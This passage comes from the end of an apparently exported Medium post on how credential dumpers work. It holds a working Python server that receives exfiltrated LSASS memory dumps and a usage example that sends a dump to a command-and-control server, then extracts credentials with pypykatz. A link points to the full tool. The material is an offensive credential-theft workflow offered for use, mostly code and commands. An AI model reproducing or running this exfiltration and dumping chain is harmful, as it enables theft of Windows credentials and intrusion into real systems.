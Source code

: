 #### Server-Side Handling

Briefly document how to receive the POST:

```
#!/usr/bin/env python3
from http.server import BaseHTTPRequestHandler, HTTPServer
class DumpHandler(BaseHTTPRequestHandler):
    def do_POST(self):
        length = int(self.headers.get('Content-Length', 0))
        if length <= 0:
            self.send_response(400)
            self.end_headers()
            return
        data = self.rfile.read(length)
        # Save raw dump:
        with open('lsass_dump.bin','wb') as f:
            f.write(data)
        print(f"[+] Received {len(data)} bytes")
        self.send_response(200)
        self.end_headers()
        self.wfile.write(b'OK')
    def log_message(self, fmt, *args):
        return
if __name__ == '__main__':
    port = 8000
    server = HTTPServer(('', port), DumpHandler)
    print(f"Listening on port {port} …")
    server.serve_forever()
```

* * *

### Usage Example

1. `Minikat.exe --exfil <lsass-pid> http://<C2-server>:<port>/upload`
2. On the server side, your HTTP handler saves the raw body to disk as `dump.bin`, then you run:

`pypykatz lsa minidump dump.bin`

* * *

The full code on GitHub:

[https://github.com/Moataz51201/LsassDumper](https://github.com/Moataz51201/LsassDumper)

By [Moataz Osama](https://medium.com/@mezo512) on [June 17, 2025](https://medium.com/p/9bc00fe978c0).

[Canonical link](https://medium.com/@mezo512/how-credential-dumpers-work-building-an-lsass-memory-extractor-in-c-9bc00fe978c0)

Exported from [Medium](https://medium.com) on August 26, 2025.